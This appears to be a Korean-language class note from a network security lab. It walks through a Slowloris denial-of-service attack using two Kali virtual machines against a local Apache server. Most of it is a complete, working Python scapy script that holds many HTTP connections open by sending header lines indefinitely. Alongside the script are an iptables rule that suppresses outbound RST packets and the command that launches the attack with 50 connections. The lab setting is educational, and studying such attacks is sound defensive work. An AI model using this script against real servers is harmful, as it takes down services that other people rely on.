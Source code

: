 # 190610(Mon)_NetworkSecure

### Slowloris Attack

- HTTP 요청 헤더에 개행문자를 전달하지 않고, 헤더를 계속해서 전달하여 연결 유지

```
@kali#2 : #gedit slowloris.py
```

```python

#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))

```

```
@kali#2 : #chomod 755 slowloris.py
@kali#1 : #service apache2 restart
		  #ifconfig
```

- kali#2에서 외부로 RST패킷이 나가지 않도록 방화벽 룰 등록

  ```
  @kali#2 : #iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
  		: #iptables -L
  ```

- 공격 명령 실행

  ```
  @kali#2 : #./slowloris.py 192.168.111.130 50
  ```

- kali#1에서 브라우저를 통해서 연결 확인

  - http://localhost/server-status

- 확인

  - kali#1에서 wireshark 실행 / kali2#2에서 ./slowloris.py 실행



### Proxy 도구 사용법